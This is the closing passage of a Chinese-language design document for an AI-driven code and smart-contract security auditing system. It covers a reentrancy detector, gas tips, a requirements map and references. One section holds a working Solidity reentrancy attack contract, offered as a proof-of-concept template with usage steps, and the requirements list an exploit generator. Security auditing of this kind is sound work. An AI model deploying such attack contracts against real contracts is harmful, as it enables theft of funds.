    recommendation: "Follow Checks-Effects-Interactions pattern"
}
```

#### 17.3.3 智能合约审计工作流

```python
# Python智能合约审计实现
class SmartContractAuditor:
    async def audit_contract(self, contract_path: str) -> ContractAuditReport:
        """审计智能合约"""
        
        # 1. 解析Solidity代码为AST
        ast = await self.go_client.parse_solidity(contract_path)
        
        # 2. 提取合约信息
        contracts = self.extract_contracts(ast)
        
        # 3. 执行智能合约特定检测
        vulnerabilities = []
        
        for contract in contracts:
            # 重入攻击检测
            reentrancy = await self.detect_reentrancy(contract)
            vulnerabilities.extend(reentrancy)
            
            # 整数溢出检测
            overflow = await self.detect_overflow(contract)
            vulnerabilities.extend(overflow)
            
            # 权限控制检测
            access_control = await self.detect_access_control(contract)
            vulnerabilities.extend(access_control)
            
            # 使用AI进行深度分析
            ai_findings = await self.ai_deep_analysis(contract)
            vulnerabilities.extend(ai_findings)
        
        # 4. 生成审计报告
        report = self.generate_contract_report(
            contracts=contracts,
            vulnerabilities=vulnerabilities
        )
        
        return report
    
    async def detect_reentrancy(self, contract) -> List[Vulnerability]:
        """检测重入攻击"""
        vulns = []
        
        for func in contract.functions:
            # 查找外部调用
            external_calls = self.find_external_calls(func)
            
            for call in external_calls:
                # 检查外部调用后是否有状态变更
                state_changes = self.find_state_changes_after(func, call)
                
                if state_changes:
                    # 使用AI验证是否真的存在重入风险
                    is_vulnerable = await self.ai_validate_reentrancy(
                        func, call, state_changes
                    )
                    
                    if is_vulnerable:
                        vulns.append(Vulnerability(
                            type="REENTRANCY",
                            severity="critical",
                            location=call.location,
                            description="Potential reentrancy attack",
                            poc=self.generate_reentrancy_poc(func, call)
                        ))
        
        return vulns
```

#### 17.3.4 智能合约POC生成

```python
# 重入攻击POC生成示例
poc_template = """
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IVulnerable {
    function withdraw(uint256 amount) external;
}

contract ReentrancyAttack {
    IVulnerable public vulnerable;
    uint256 public amount;
    
    constructor(address _vulnerable) {
        vulnerable = IVulnerable(_vulnerable);
    }
    
    function attack(uint256 _amount) external payable {
        amount = _amount;
        vulnerable.withdraw(_amount);
    }
    
    // 重入攻击的关键：在receive中再次调用withdraw
    receive() external payable {
        if (address(vulnerable).balance >= amount) {
            vulnerable.withdraw(amount);
        }
    }
    
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

/*
使用说明:
1. 部署ReentrancyAttack合约，传入目标合约地址
2. 调用attack函数，触发重入攻击
3. 检查getBalance()，如果余额异常增加则漏洞存在

预期结果:
- 正常情况：提取指定金额
- 漏洞存在：通过重入多次提取，余额超过应得金额
*/
"""
```

### 17.4 Gas优化建议

除了安全审计，系统还可以提供Gas优化建议：

```python
gas_optimizations = [
    {
        "type": "storage_packing",
        "description": "优化storage变量排列以节省gas",
        "saving": "~20000 gas per transaction",
        "example": """
        // Before
        uint128 a;
        uint256 b;  // 占用新slot
        uint128 c;  // 占用新slot
        
        // After (packed)
        uint128 a;
        uint128 c;  // 与a共享一个slot
        uint256 b;
        """
    },
    {
        "type": "immutable_constant",
        "description": "将不变的变量声明为constant或immutable",
        "saving": "~2100 gas per read",
    },
    # ...更多优化建议
]
```

### 17.5 与传统代码审计的集成

智能合约审计与传统审计无缝集成：



**对应需求**：作为创新亮点，扩展了系统的应用领域，使其不仅适用于传统Web应用，还能够审计区块链DApp的完整技术栈。

---

## 18. 需求映射表

### 18.1 需求到设计的完整映射

| 需求ID | 需求描述 | 设计章节 | 实现组件 | 优先级 |
|--------|---------|---------|---------|--------|
| 需求1 | 扫描代码库识别漏洞 | 3.5, 3.8 | 审计引擎、污点分析 | P0 |
| 需求2 | 自动生成POC代码 | 3.6 | POC生成器 | P0 |
| 需求3 | 生成漏洞利用代码 | 3.6 | EXP生成器 | P1 |
| 需求4 | 配置审计规则和参数 | 3.5, 14.2 | 审计引擎、规则管理 | P1 |
| 需求5 | MCP工具接口 | 2.4, 4 | Python MCP Server | P0 |
| 需求6 | 多格式报告导出 | 3.5 | 报告生成器 | P1 |
| 需求7 | 深度分析减少误报 | 2.3.1, 3.7 | 污点分析、多模型验证 | P0 |
| 需求8 | 完整上下文追踪 | 3.3, 3.4 | 污点分析、调用链分析 | P0 |
| 需求9 | 多语言支持 | 3.1, 5.1 | AST解析器、语言适配器 | P0 |
| 需求10 | 第三方依赖分析 | 5 | 依赖分析器 | P1 |
| 需求11 | 灵活规则引擎 | 3.5, 14.2 | 规则引擎 | P1 |
| 需求12 | 识别常见漏洞模式 | 3.5 | 检测规则 | P0 |
| 需求13 | 详细漏洞报告 | 3.5 | 报告生成器 | P0 |
| 需求14 | 基于AST深度分析 | 3.1 | AST解析器 | P0 |
| 需求15 | 高效代码索引 | 3.2 | 索引管理器 | P0 |
| 需求16 | MCP协议工具 | 2.4, 4 | MCP Server | P0 |
| 需求17 | 跨语言代码分析 | 3.1, 5.1 | 多语言适配器 | P0 |
| 需求18 | 精确代码提取 | 3.4, 4.2.7 | 代码提取服务 | P0 |
| 需求19 | 智能组织代码信息 | 3.2, 3.9 | 索引管理、AI优化 | P1 |
| 需求20 | 追踪危险函数 | 3.3, 4.2.6 | 污点分析引擎 | P0 |
| 需求21 | 结构化审计工作流 | 3.5 | 审计引擎 | P1 |
| 需求22 | 框架特定安全问题 | 5.3 | 框架适配器 | P1 |
| 需求23 | 交互式代码探索 | 4.2 | MCP工具 | P1 |
| 需求24 | 深度审计依赖库 | 5, 需求10 | 依赖分析器 | P1 |
| 需求25 | 查询历史漏洞 | 3.7, 4.2.9 | CVE查询服务 | P1 |
| 需求26 | 依赖关系可视化 | 5 | 依赖分析器 | P2 |
| 需求27 | 语言特性深度适配 | 5.2 | 语言适配器 | P1 |
| 需求28 | Web框架深度适配 | 5.3 | 框架适配器 | P1 |
| 需求29 | ORM框架适配 | 5.4 | ORM适配器 | P1 |
| 需求30 | 模板引擎适配 | 5.5 | 模板引擎适配器 | P1 |
| 需求31 | 完整调用关系图 | 3.4 | 调用链分析器 | P0 |
| 需求32 | 函数级污点分析 | 2.3.1, 3.3 | 污点分析引擎 | P0 |
| 需求33 | 自动提取链路代码 | 3.4, 4.2.7 | 代码提取服务 | P0 |
| 需求34 | 多模型交叉验证 | 3.7 | 验证引擎 | P0 |
| 需求35 | 语义检索和理解 | 3.9 | 语义搜索引擎 | P1 |
| 需求36 | 处理混淆和编译代码 | 5 | 反编译器集成 | P2 |

### 18.2 核心技术决策到需求的映射

| 技术决策 | 支持的需求 | 设计章节 |
|---------|-----------|---------|
| Python+Go混合架构 | 需求5, 16 (MCP支持) + 全部 (性能) | 2.1 |
| 函数级污点分析 | 需求7, 8, 20, 32 | 2.3.1, 3.3 |
| 多模型验证 (Self-RAG) | 需求7, 34 | 3.7 |
| gRPC通信+序列化优化 | 性能需求 | 2.4 |
| txtai语义检索 | 需求35 | 3.9 |
| go-tree-sitter AST解析 | 需求14, 17 | 3.1 |
| 插件系统 | 需求4, 11, 27-30 | 14.1 |
| 区块链合约审计 | 创新亮点 | 17 |

### 18.3 功能完整性检查

| 需求类别 | 需求数量 | 已设计数量 | 完成度 |
|---------|---------|-----------|--------|
| 核心审计功能 | 8 | 8 | 100% |
| MCP集成 | 4 | 4 | 100% |
| 多语言/框架支持 | 8 | 8 | 100% |
| 高级分析功能 | 10 | 10 | 100% |
| 代码理解和导航 | 6 | 6 | 100% |
| **总计** | **36** | **36** | **100%** |

---

## 19. 附录

### 19.1 术语表

| 术语 | 定义 |
|------|------|
| AST | 抽象语法树，代码的结构化表示 |
| Sink | 污点汇，危险函数或操作 |
| Source | 污点源，用户输入或不可信数据来源 |
| Sanitizer | 净化函数，清理或验证数据的函数 |
| Taint Analysis | 污点分析，追踪数据流的安全分析技术 |
| Self-RAG | 自我反思检索增强生成，AI验证技术 |
| MCP | Model Context Protocol，模型上下文协议 |

### 19.2 示例配置

参见配置文件章节（12.3）

### 19.3 API完整列表

参见MCP工具接口设计章节（第4章）

### 19.4 参考资料

**Python MCP SDK**:
- [Model Context Protocol Specification](https://modelcontextprotocol.io)
- [Python MCP SDK Documentation](https://github.com/modelcontextprotocol/python-sdk)

**Go技术栈**:
- [tree-sitter](https://tree-sitter.github.io) - 高性能语法解析器
- [gRPC](https://grpc.io) - 高性能RPC框架
- [BadgerDB](https://github.com/dgraph-io/badger) - 高性能嵌入式数据库

**AI/ML库**:
- [txtai](https://github.com/neuml/txtai) - 语义搜索引擎
- [Anthropic Claude API](https://www.anthropic.com) - AI模型服务

**安全审计参考**:
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [CWE Top 25](https://cwe.mitre.org/top25/)
- [Smart Contract Security Best Practices](https://consensys.github.io/smart-contract-best-practices/)

---

## 文档版本

- **版本**: 2.0
- **日期**: 2025-10-19
- **作者**: AI Assistant
- **状态**: 详细设计版，待技术评审

## 变更历史

| 版本 | 日期 | 变更说明 | 作者 |
|------|------|---------|------|
| 1.0 | 2025-01-19 | 初始版本 | AI Assistant |
| 1.5 | 2025-10-19 | 采用Python+Go混合架构 | AI Assistant |
| 2.0 | 2025-10-19 | 完整设计文档：<br>- 添加详细架构决策说明<br>- 函数级污点分析设计决策<br>- 序列化优化策略<br>- 完整错误处理和日志策略<br>- POC/EXP生成详细实现<br>- 内存优化详细示例<br>- 完整插件系统设计<br>- 区块链智能合约审计支持<br>- 需求映射表 | AI Assistant |

---

## 文档统计

- **总章节数**: 19
- **总页数**: ~150页（预估）
- **代码示例**: 50+
- **架构图**: 15+
- **需求覆盖率**: 100% (36/36)

---

**文档结束**


